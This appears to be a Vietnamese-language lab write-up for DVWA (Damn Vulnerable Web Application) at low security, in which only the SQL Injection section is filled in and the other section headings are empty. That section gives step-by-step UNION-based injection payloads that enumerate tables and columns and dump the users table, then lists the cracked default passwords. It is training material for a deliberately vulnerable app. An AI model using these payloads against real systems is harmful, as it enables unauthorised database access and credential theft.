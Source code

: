# DVWA - Security Level: Low

## 1. Brute Force

## 2. Command Injection

## 3. CSRF

## 4. File Inclusion

## 5. File Upload

## 6. Insecure Captcha

## 7. SQL Injection
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/SQL%20Injection_1.png)

Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:
**SELECT first_name, last_name FROM users WHERE user_id = id;**
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/SQL%20Injection_2.png)
Kiem tra cac table trong database bang lenh query:
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/SQL%20Injection_3.png)
Co table **users**, kiem tra cac column trong table **users** bang lenh query:
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**  
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/SQL%20Injection_4.png)
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:
**' UNION SELECT user, password FROM users-- -**
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:
admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password
## 8. SQL Injection (Blind)

## 9. Weak Session IDs

## 10. XSS (DOM)
    
## 11. XSS (Reflected)
    
## 12. XSS (Stored)

## 13. CSP Bypass

## 14. JavaScript
